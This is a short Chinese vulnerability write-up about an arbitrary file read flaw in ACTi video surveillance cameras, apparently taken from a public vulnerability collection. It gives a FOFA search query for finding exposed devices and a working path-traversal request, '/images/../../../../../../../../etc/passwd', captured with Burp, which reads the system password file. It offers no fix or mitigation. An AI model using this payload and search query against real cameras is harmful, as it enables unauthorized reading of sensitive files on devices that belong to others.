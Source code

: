 # ACTI 视频监控 images 任意文件读取漏洞

## 漏洞描述

ACTI 视频监控 存在任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>ACTI摄像头</a-checkbox></br>

## FOFA

<a-checkbox checked>app="ACTi-视频监控"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/ac-1.png)



使用Burp抓包



```plain
/images/../../../../../../../../etc/passwd
```



![img](../../../.vuepress/public/img/ac-2.png)